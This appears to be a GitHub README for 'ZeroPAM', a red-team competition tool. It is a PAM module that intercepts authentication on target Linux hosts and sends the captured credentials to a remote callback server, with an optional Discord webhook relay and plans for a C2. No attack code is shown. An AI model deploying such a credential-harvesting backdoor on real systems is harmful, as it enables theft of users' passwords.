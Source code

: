 # ZeroPAM
Custom PAM module for use during red team/blue team competition that proxies all authentication requests and sends credentials to a remote server

## Setup:
1. Write all target IP addresses in inventory.ini under the [targets] section
2. Run `python3 setup.py -i <Callback IP> -p <Port>` from the host machine (use --help for more options)

## Host Requirements and Prerequities:
Host must be a Linux distribution (Debian-based/RedHat-based for now) capable of installing and running Ansible

Install Ansible on the host machine (before running setup.py)
- Ubuntu/Debian: `sudo apt update && sudo apt install software-properties-common && sudo add-apt-repository --yes --update ppa:ansible/ansible && sudo apt install ansible`
- RedHat Distributions: `sudo dnf install ansible`
- Kali Linux: `sudo apt install ansible`

Install required python modules (before running server.py)
- All Distributions: `pip3 install -r requirements.txt`

# Start Listening!
This module works best with a callback server. To start this, run the command `python3 server.py -p <Port>`
Run `python3 server.py --help` for more options! Some example options:
- --discord (send commands to Discord through a webhook in an environment variable or .env file)
- --only-new (only send message when credentials update)
- --no-db (run without database - cannot be run with --only-new)

## Current Known Issues
- idk we'll see

## Todo
- Encrypt message being sent from client
- Create C2 to go alongside ZeroPAM
- Officially include Arch/SUSE category of target machine
